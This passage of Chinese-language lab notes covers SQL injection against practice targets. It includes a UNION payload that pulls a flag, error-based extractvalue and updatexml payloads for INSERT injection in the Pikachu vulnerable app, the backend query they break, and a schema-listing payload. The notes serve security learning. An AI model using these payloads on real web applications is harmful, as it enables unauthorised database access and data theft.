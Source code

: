 可以将密码进行修改，自行测试。



需要展现`flag`,还是需要使用`union`

`login_user=admin&login_password=1' union select 1,2,3 %23&mysubmit=Login`

`login_user=admin&login_password=1' union select 1,(select flag from answers.flags where stage=12),3 %23&mysubmit=Login`

> [!tip]
>
> 可以使用堆叠查询是因为 Web 应用程序使用了 mysqli_multi_query 函数堆叠注入一般难以遇到，遇到则能够发挥巨大的攻击效用。





# update注入\insert注入

update注入的原理: 通过联合报错注入，让他提前闭合来进行报错。

示例源码: `insert into users(id,name,password) values(1,"张三",123456)`

其中values为注入点，所以需要在注入点完成括号闭合`)`,其中`values`中的值可能会被“”或者‘’包裹，所以根据需要进行改变

示例payload : `id=1' and extractvalue(1,concat('~',database())) and "",'22','33') #`

> [!tip]
>
> 插入的数据库标题有多少个就后面跟上多少个数，



## pikachu_insert注入

payload : `username=1' or updatexml(1,concat(0x7e,(select database()),0x7e),1) ,'22','33','44','55','66')#&password=666666&sex=&phonenum=&email=&add=&submit=submit`

![屏幕截图 2025-05-18 143255](./img/屏幕截图 2025-05-18 143255.png)



或者`username=1' or updatexml(1,concat(0x7e,(select database()),0x7e),1) or' &password=666666&sex=&phonenum=&email=&add=&submit=submit`

后端源码: 

`insert into member(username,pw,sex,phonenum,email,address) values('' or updatexml(1,concat(0x7e,(select password from users limit 0,1)),1)or'',md5('{$getdata['password']}'),'{$getdata['sex']}','{$getdata['phonenum']}','{$getdata['email']}','{$getdata['add']}')" `

> [!important]
>
> 记住，必须使用空的来进行，否则会正确创建用户，因为使用的是or，一旦出现一个true就不会报错。



extractvalue报错 payload : `' or extractvalue(1, concat('~', (select group_concat(schema_name) from information_schema.schemata))) or '`
